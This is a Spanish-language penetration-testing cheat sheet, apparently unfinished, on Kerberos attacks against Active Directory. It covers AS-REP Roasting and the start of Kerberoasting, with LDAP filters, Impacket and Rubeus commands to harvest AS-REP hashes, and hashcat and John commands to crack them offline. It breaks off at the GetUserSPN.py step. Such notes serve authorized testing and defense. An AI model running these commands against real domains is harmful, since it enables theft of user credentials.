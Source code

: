 Este ataque se basa en encontrar usuarios que no requieran pre-authentication de Kerberos. 

El funcionamiento del **AS-REP Roasting** permite que cualquiera pueda enviar una petición AS-REQ en nombre de esos usuarios, ya que no necesita cifrar el **timestamp** con las credenciales del usuario, y esto devolverá una petición AS-REP correctamente.

La respuesta AS-REP contiene un pedazo del mensaje cifrado con la clave del usuario. Con este mensaje, se puede tratar de crackear offline para obtener las credenciales de dicho usuario.

En caso de que se disponga de una cuenta de usuario del dominio, se podrían obtener los usuarios que no necesiten pre-authentication Kerberos con una consulta LDAP:

```bash
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

Con la herramienta **GetNPUsers.py** de Impacket podemos recolectar mensajes AS-REP sin pre-authentication desde una lista de usuarios:

```bash
python GetNPUsers.py [domain]/ -usersfile [user.txt] -format hashcat -outfile hashes.asreproast
python GetNPUsers.py [domain]/[user] -no-pass
```

Usando **Rubeus.exe**:

```bash
Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
```

## Crackeando peticiones AS-REP (Hashcat o John)

Con Hashcat:

```bash
hashcat -m 18200 --force -a 0 hashes.asreproast [pass.txt]
```

Con John:

```bash
john --wordlist=password_kerb.txt hashes.asreproast
```

## Kerberoasting !REVISAR¡

<span style="color:red">Necesario credenciales de un usuario del dominio sin privilegios</span>

Recolectar TGS's para aquellos servicios que corren en el contexto de un usuario del dominio. Ya que los TGS's incluyen un pedazo de datos cifrado con una clave derivada de la contraseña de dichos usuarios, y después crackearlas offline. 

Para obtener las cuentas de usuario que tien servicios asociados, se puede usar el filtro LDAP:

```bash
(&(samAccountType=805306368)(servicePrincipalName=*))
```

Con la herramienta **GetUserSPN.py** (impacket):
